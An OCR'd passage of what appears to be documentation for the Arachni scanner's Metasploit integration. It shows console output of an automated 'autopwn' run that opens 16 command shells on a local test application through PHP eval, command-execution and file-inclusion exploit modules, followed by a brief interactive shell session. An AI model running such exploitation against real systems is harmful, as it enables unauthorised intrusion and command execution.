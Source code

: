     [*] Command shell session 16 opened (127.0.0.1:47874 -> 127.0.0.1:8965) at 2010-10-28 18:26:02 +0100
    [...snip...]
    [*] The autopwn command has completed with 16 sessions
    [*] Enter sessions -i [ID] to interact with a given session ID
    [*]
    [*] ================================================================================

    Active sessions
    ===============

      Id  Type   Information  Connection                          Via
      --  ----   -----------  ----------                          ---
      1   shell               127.0.0.1:54598 -> 127.0.0.1:5019   exploit/unix/webapp/arachni_php_eval
      2   shell               127.0.0.1:55336 -> 127.0.0.1:8541   exploit/unix/webapp/arachni_exec
      3   shell               127.0.0.1:37880 -> 127.0.0.1:12465  exploit/unix/webapp/arachni_exec
      4   shell               127.0.0.1:49451 -> 127.0.0.1:10866  exploit/unix/webapp/arachni_php_include
      5   shell               127.0.0.1:40276 -> 127.0.0.1:11915  exploit/unix/webapp/arachni_php_eval
      6   shell               127.0.0.1:34400 -> 127.0.0.1:5222   exploit/unix/webapp/arachni_exec
      7   shell               127.0.0.1:58456 -> 127.0.0.1:10955  exploit/unix/webapp/arachni_php_include
      8   shell               127.0.0.1:47028 -> 127.0.0.1:12432  exploit/unix/webapp/arachni_exec
      9   shell               127.0.0.1:48549 -> 127.0.0.1:5929   exploit/unix/webapp/arachni_exec
      10  shell               127.0.0.1:38239 -> 127.0.0.1:11919  exploit/unix/webapp/arachni_exec
      11  shell               127.0.0.1:58541 -> 127.0.0.1:14343  exploit/unix/webapp/arachni_php_include
      12  shell               127.0.0.1:48655 -> 127.0.0.1:13743  exploit/unix/webapp/arachni_php_include
      13  shell               127.0.0.1:59996 -> 127.0.0.1:8895   exploit/unix/webapp/arachni_php_include
      14  shell               127.0.0.1:53717 -> 127.0.0.1:10767  exploit/unix/webapp/arachni_php_include
      15  shell               127.0.0.1:51623 -> 127.0.0.1:7668   exploit/unix/webapp/arachni_php_eval
      16  shell               127.0.0.1:47874 -> 127.0.0.1:8965   exploit/unix/webapp/arachni_php_include

    [*] ================================================================================
    msf > sessions -i 1
    [*] Starting interaction with 1...

    ls
    eval.php
    os_command.php
    rfi.php
    sqli.php
    xss.php

    whoami
    www-data
    ^C
    Abort session 1? [y/N]  y

    [*] Command shell session 1 closed.  Reason: User exit
    msf >

### Assisted exploitation (arachni_manual)
    $ ./msfconsole

    #    # ###### #####   ##    ####  #####  #       ####  # #####
    ##  ## #        #    #  #  #      #    # #      #    # #   #
    # ## # #####    #   #    #  ####  #    # #      #    # #   #
    #    # #        #   ######      # #####  #      #    # #   #